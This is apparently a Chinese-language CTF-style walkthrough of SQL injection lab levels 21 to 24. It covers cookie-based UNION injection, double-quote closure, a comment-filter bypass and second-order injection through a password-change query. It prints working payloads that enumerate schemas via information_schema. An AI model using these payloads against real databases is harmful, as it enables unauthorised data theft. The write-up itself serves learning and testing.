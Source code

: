 ![在这里插入图片描述](https://img-blog.csdnimg.cn/958a72df11d4444192cb257bedf20635.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

查库：

原句为：

```
Cookie:uname=-1') union select 1,1,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata) #
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/067ab08256d04a3f9469270c331880c1.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

可以看到在password栏就回显了数据库名

但是要注意，这里不能使用数据库里有的名字，否则只会返回一条数据
原句为：

```
admin') union select 1,1,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata) #
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/f46414b50041428588113de0c346ce7e.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

## Text 22

闭合条件变成了双引号"，其他和21一样

## Test 23（过滤注释符）

重点就是知道如何闭合，剩下的就很简单了，联合查询即可，这里还是要注意前面的id=-1那儿不能是数据库里面本来就有的，不然只会返回一条数据

查库：

![在这里插入图片描述](https://img-blog.csdnimg.cn/c405aa3c82f141e9b2fbdbde7967e808.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

查表：

![在这里插入图片描述](https://img-blog.csdnimg.cn/12a02e0fbfa34f5fb3aae461eb52e219.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

查字段和数据就不演示了

## Test 24（二次注入）

原理：
注入点在修改密码那儿

```
updat users set password='$password' where username='$username' and password='$second_password'
```

将其变为：

```php
updat users set password='$password' where username='$username' --#and password='$second_password'  --#后面的都被注释了
```
